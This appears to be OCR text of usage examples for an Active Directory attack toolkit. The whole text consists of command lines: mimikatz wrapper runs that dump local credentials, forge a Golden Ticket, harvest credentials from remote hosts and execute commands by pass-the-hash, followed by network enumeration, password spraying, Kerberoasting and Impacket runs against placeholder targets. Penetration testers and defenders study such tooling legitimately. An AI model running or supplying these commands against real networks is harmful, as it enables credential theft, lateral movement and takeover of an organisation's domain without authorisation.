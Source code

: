 # Dump credentials from local system
./mimikatz-wrapper.py local all

# Create a Golden Ticket
./mimikatz-wrapper.py local golden -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

# Run credential harvesting on remote systems
./mimikatz-wrapper.py remote -t 192.168.1.100 -d contoso.local -u administrator -p Password123!

# Execute command via Pass-the-Hash
./mimikatz-wrapper.py pth -t 192.168.1.100 -d contoso.local -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 -c "whoami"


# Local enumeration with network scanning
./powershell-enumeration.py local -n 192.168.1.0/24

# Remote enumeration of a target system
./powershell-enumeration.py remote -t 192.168.1.100 -u administrator -p Password123!

# Network discovery scan
./powershell-enumeration.py scan -n 192.168.1.0/24

# Full enumeration campaign
./powershell-enumeration.py full -t 192.168.1.100 192.168.1.101 -u administrator -p Password123!


./adpentest-toolkit.py check - Check if required tools are installed
./adpentest-toolkit.py spray - Run password spraying
./kerberoast.py -t 10.0.0.1 - Run Kerberoasting against a specific target
./impacket-toolkit.py all -t 192.168.1.100 - Run all Impacket tools against a target
./adpentest-toolkit.py full - Run all tools in sequence